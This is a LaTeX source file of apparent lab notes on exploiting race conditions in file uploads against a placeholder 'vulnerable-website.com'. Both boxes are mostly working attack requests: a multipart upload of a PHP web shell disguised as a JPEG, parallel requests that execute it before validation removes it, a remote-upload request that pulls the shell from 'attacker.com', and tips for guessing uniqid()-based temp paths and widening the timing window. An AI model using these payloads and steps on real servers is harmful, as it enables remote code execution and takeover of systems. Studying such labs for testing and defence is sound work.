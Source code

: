 \documentclass[11pt]{article}
\begin{document}
\begin{labbox}{Lab pattern: race condition in a validate-after-store workflow}
Step 1 -- upload the web shell exactly as you normally would; the request itself looks unremarkable, because the server will accept it first and only validate/scan afterwards:
\begin{lstlisting}[language=http]
POST /my-account/avatar HTTP/1.1
Host: vulnerable-website.com
Content-Length: 210
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
 
------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/jpeg
 
<?php echo system($_GET['command']); ?>
------WebKitFormBoundary--
\end{lstlisting}
Step 2 -- in parallel with (or immediately after) sending the upload, fire a burst of requests at the predicted storage path, using Burp's Turbo Intruder or Repeater's ``send group in parallel'' feature so the requests land within the same few milliseconds the file exists on disk before any antivirus/validation check deletes it:
\begin{lstlisting}[language=http]
GET /files/avatars/shell.php?command=id HTTP/1.1
Host: vulnerable-website.com
\end{lstlisting}
If even one of these requests lands inside the window between the file being written and being removed, the server executes it and returns the output of \texttt{id}. Repeating the request many times in parallel is what makes a race condition that only exists for a few milliseconds practically exploitable.
\end{labbox}
 
\begin{labbox}{Lab pattern: race condition in a URL-based (remote) upload}
Step 1 -- submit a URL for the server to fetch and store, rather than uploading the file directly:
\begin{lstlisting}[language=http]
POST /my-account/avatar/upload-from-url HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
 
url=http://attacker.com/shell.php&filename=shell.php
\end{lstlisting}
While the server is fetching \texttt{attacker.com/shell.php}, it typically writes the response into a temporary directory with a randomized name before validating it. If that name is generated with a weak scheme such as \texttt{uniqid()} (which is time-seeded and therefore brute-forceable), an attacker can enumerate likely temporary paths while the fetch/validation is still in progress:
\begin{lstlisting}[language=http]
GET /tmp/uploads/<guessed-uniqid-value>/shell.php?command=id HTTP/1.1
Host: vulnerable-website.com
\end{lstlisting}
Making \texttt{attacker.com/shell.php} respond slowly, or padding the payload with a large amount of junk data after the PHP code, keeps the file in transit longer and widens the window available for guessing the temporary path before it is validated and either moved or deleted.
\end{labbox}
\end{document}
